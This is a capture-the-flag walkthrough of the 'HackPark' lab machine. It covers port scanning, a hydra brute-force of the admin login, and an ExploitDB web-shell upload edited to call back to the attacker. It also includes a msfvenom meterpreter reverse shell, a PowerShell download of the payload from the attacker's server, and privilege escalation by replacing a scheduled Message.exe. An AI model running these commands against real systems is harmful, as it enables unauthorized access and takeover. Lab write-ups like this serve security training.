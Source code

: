 # HackPark

First of all I am going to do a nmap scan:

```bash
nmap -Pn <Machine IP>

Starting Nmap 7.94SVN ( [https://nmap.org](https://nmap.org/) ) at 2023-12-28 05:20 EST
Nmap scan report for 10.10.100.75
Host is up (0.054s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 5.97 seconds
```

I have usend -Pn because the machine does not respond to ping.

We can see that it has port 80(web page) and port 3389(rdp) open.

For now I am just going to see the web page.

![Untitled](HackPark%20633b8e08ffeb4b57aad24df8cd964607/Untitled.png)

From here I can do a reverse image research with google images to uncover the clown identity!

```bash
hydra -l admin -P /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt <Machine_IP> http-post-form "/Account/login.aspx?ReturnURL=%2fadmin%2f?ReturnURL=/admin/:__VIEWSTATE=EOQdZQUirRo%2FPUM0GeZEHUCUj2T4rRAdTaQhFI1ySIpm9C8mzxvnNNrRnjAQpjhVlBKOWm1gYZ35tUhQtBunvQ4xbDH%2B0tCVubOn7duj0udoaup%2BbQ5ohSDr%2FkR3znBlND9uVF6IyceARqKMmH7Lr6Ybud38aeXVlK%2FHUbFoRC7QG7j2SmTr2Yo2DP9Z8iuvNgq3V%2F6TWN9zRuY5L41FLVK4aRfYv2wwJyCsYpMBCqqxwwbKVvzuKrxaztrLzQzW7yYMpMYMVupE4S6NoZ%2BI3eAoSEOX9EYCmHNJo7ArRyHf6NaUD4ziHK02Fxf7zNrhsEv6eMLzKY%2FwxcNNYPtZmPZraazfs5Eak1UrAb4bcd%2F5U674&__EVENTVALIDATION=vv0szo0PNWcBRD3S8W58LlYPikRW%2B87zibRx%2F2E7pAtvEDnvbhdcw%2FwUE3c9c3MRswdhWJXJYFE%2Ff4zg9IxkwN13iQf3WP6ILJMuG5mkvCeF1g9rdSkXPBc5%2FKAUY2e4duaTxrTr4klY8YZ4bVhdDhot4KoE7a8pfuEkc1chGV1n%2B4Iv&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed”

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-12-28 05:43:08
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-post-form://10.10.100.75:80/Account/login.aspx?ReturnURL=%2fadmin%2f?ReturnURL=/admin/:__VIEWSTATE=EOQdZQUirRo%2FPUM0GeZEHUCUj2T4rRAdTaQhFI1ySIpm9C8mzxvnNNrRnjAQpjhVlBKOWm1gYZ35tUhQtBunvQ4xbDH%2B0tCVubOn7duj0udoaup%2BbQ5ohSDr%2FkR3znBlND9uVF6IyceARqKMmH7Lr6Ybud38aeXVlK%2FHUbFoRC7QG7j2SmTr2Yo2DP9Z8iuvNgq3V%2F6TWN9zRuY5L41FLVK4aRfYv2wwJyCsYpMBCqqxwwbKVvzuKrxaztrLzQzW7yYMpMYMVupE4S6NoZ%2BI3eAoSEOX9EYCmHNJo7ArRyHf6NaUD4ziHK02Fxf7zNrhsEv6eMLzKY%2FwxcNNYPtZmPZraazfs5Eak1UrAb4bcd%2F5U674&__EVENTVALIDATION=vv0szo0PNWcBRD3S8W58LlYPikRW%2B87zibRx%2F2E7pAtvEDnvbhdcw%2FwUE3c9c3MRswdhWJXJYFE%2Ff4zg9IxkwN13iQf3WP6ILJMuG5mkvCeF1g9rdSkXPBc5%2FKAUY2e4duaTxrTr4klY8YZ4bVhdDhot4KoE7a8pfuEkc1chGV1n%2B4Iv&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed
[80][http-post-form] host: 10.10.100.75   login: admin   password: <redacted>
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-12-28 05:44:04
```

Found the password!

Now we need to get a reverse shell, this can be done by searching in exploit DB using the database version in [http://10.10.100.75/admin/about.cshtml](http://10.10.100.75/admin/about.cshtml)

After we install the exploit, we need to change the attacker ip and port to ours

```bash
using(System.Net.Sockets.TcpClient client = new System.Net.Sockets.TcpClient("<YOUR_IP>", <YOUR_PORT>)) {
```

Then we rename the file into PostView.ascx

After that we set up a listener:

```bash
nc -lvnp 4444
```

And we go to publish it

![Untitled](HackPark%20633b8e08ffeb4b57aad24df8cd964607/Untitled%201.png)

After that we just want to go to this path: `http://10.10.10.10/?theme=../../App_Data/files` for triggering the reverse shell!

Now, we want to upgrade the shell using metasploit.

First of all we create our revshell:

```bash
msfvenom -p windows/meterpreter/reverse_tcp  LHOST=<YOUR_IP> LPORT=4555 -f exe -o revshell.exe
```

then we set up our listener inside metasploit:

```bash
use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------

Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target

View the full module info with the info, or info -d command.

msf6 exploit(multi/handler) > set LHOST <YOUR_IP>

LHOST => <YOUR_IP>
msf6 exploit(multi/handler) > set LPORT 4555

LPORT => 4555
```

Then we create a server using python:

 `python3 -m http.server 8000`

After that we need to install the reverse shell inside the windows machine,

We need to do this inside the `temp` folder, otherwise is not going to work:

```bash
powershell Invoke-WebRequest -Uri http://10.18.20.116:8000/revshell.exe -OutFile revshell.exe
```

Then we execute the file and we have the shell!

now we need to search for the OS, we just need to use **sysinfo**

And for the processes **ps**

The hint tells us to check “C:\Program Files (x86)”

So I did:

```bash
c:\Program Files (x86)>dir
 
Volume in drive C has no label.
 Volume Serial Number is 0E97-C552
 Directory of c:\Program Files (x86)
08/06/2019  01:12 PM    <DIR>          .
08/06/2019  01:12 PM    <DIR>          ..
08/22/2013  07:39 AM    <DIR>          Common Files
03/21/2014  11:07 AM    <DIR>          Internet Explorer
08/22/2013  07:39 AM    <DIR>          Microsoft.NET
12/28/2023  04:49 AM    <DIR>          SystemScheduler
08/22/2013  07:39 AM    <DIR>          Windows Mail
08/22/2013  07:39 AM    <DIR>          Windows NT
08/22/2013  07:39 AM    <DIR>          WindowsPowerShell
               0 File(s)              0 bytes
               9 Dir(s)  39,124,586,496 bytes free
```

The only thing strange to me is SystemScheduler, if we open the directory, we can see a bunch of processes.

Going in the Events, directory, and opening the log file, will reval to us which is the abnormal service that is running.

We see that the service Message.exe run with the Administrator privileges, and we can use that in our favor.

Now we put in background the meterpreter shell, and then we want to restart the listener again.

Next thing to do is, rename the reverse shell in `/windows/temp` to Message.exe

Then remove Message.exe from the SystemScheduler directory, and put the reverse shell now named Message.exe in it.

Now we just need to start the process.

(Do this with ./Message.exe or Start-Process “Message.exe”)

And we got a Admin shell!

Then I found the jeff flag in: `C:\Users\Jeff\Desktop\user.txt`

And the root flag in: `C:\Users\Administrator\Desktop\root.txt`